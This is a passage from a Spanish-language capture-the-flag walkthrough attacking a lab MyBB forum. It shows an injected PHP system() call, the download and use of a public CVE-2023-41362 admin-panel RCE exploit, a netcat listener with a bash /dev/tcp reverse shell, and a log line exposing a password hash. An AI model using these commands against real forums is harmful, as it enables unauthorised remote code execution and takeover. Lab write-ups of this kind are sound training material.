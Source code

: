 ```bash
][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0]}-->
```

En donde estamos logueados cargamos el recurso:
```bash
http://panel.mybb.dl/online.php
```

Explotamos el **RCE**
```bash
# Comandos para explotación
http://panel.mybb.dl/online.php?1=system("whoami");
```

### Intrusion
Para la intrusion nos descargaremos este exploit del siguiente repositorio:
```bash
wget https://raw.githubusercontent.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE/refs/heads/main/exploit.py
```

```bash
chmod +x exploit.py
```

Revisamos el modo de uso:
```bash
python3 exploit.py
usage: exploit.py [-h] [--admincp ADMINCP] [--user-agent USER_AGENT] target username password
exploit.py: error: the following arguments are required: target, username, password
```

```bash
python3 exploit.py http://panel.mybb.dl/ admin babygirl
```

```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
En esta ruta:
```bash
/var/www/mybb/backups
```


Tenemos el archivo: **( data )**
```bash
2024-06-16 12:35:33,INFO,User 'alice' attempted login with password '$2y$10$OwtjLEqBf9BFDtK8sSzJ5u.gR.tKYfYNmcWqIzQBbkv.pTgKX.pPi'
```
